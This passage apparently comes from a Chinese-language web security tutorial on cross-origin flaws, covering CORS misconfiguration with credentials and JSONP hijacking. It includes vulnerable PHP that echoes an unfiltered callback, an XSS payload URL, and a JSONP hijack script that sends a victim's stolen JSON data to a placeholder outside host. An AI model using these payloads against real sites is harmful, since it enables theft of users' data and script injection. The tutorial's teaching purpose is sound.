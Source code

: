 ```
<script type="text/javascript">
    var xhr = new XMLHttpRequest();
    xhr.open("GET","http://xxx.com/a/b/",true);
    xhr.send();
</script>
```

请求加origin:https://view.yahoo.com
返回Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: https://view.yahoo.com
存在跨域漏洞
http://www.freebuf.com/articles/web/158529.html
https://yassineaboukir.com/blog/security-impact-of-a-misconfigured-cors-implementation/

### 0x04 JSONP跨域

JSOUP(JSON with Padding) 
jsoup 基本语法 callback({ "name": "kwan" , "msg": "获取成功" });
JSONP两部分组成：回调函数和里面的数据。回调函数是当响应到来时，应该在页面中调用的函数，一般是在发送过去的请求中指定。

简单例子如下

```
<script type="text/javascript">
    function callback(json){
        //处理获得的json数据
    }
</script>
<script src="http://xxx.com/data.php?a=callback"></script>
```

没有定义Content-Type为（ Content-Type: application/json ）callback输出点没过滤可导致 xss

服务端code

```
<?php
$callback = $_GET['callback'];
print $callback.'({"id" : "1","name" : "tom0li"});';
?>
```

		访问http://xxx.com/1.php?callback=test"><img/src=x onerror=alert(1)>

![跨域](https://raw.githubusercontent.com/tom0li/tom0li.github.io/master/images/跨域.png)

```
<script>
function test(data){
    var xhr = new XMLHttpRequest();
    var url = "http://xx.com/" + JSON.stringify(data);
    xhr.open("GET",url,true);
    xhr.send();
    }
</script>
<script src="http://xxx.com/1.php?callback=test"></script>
```

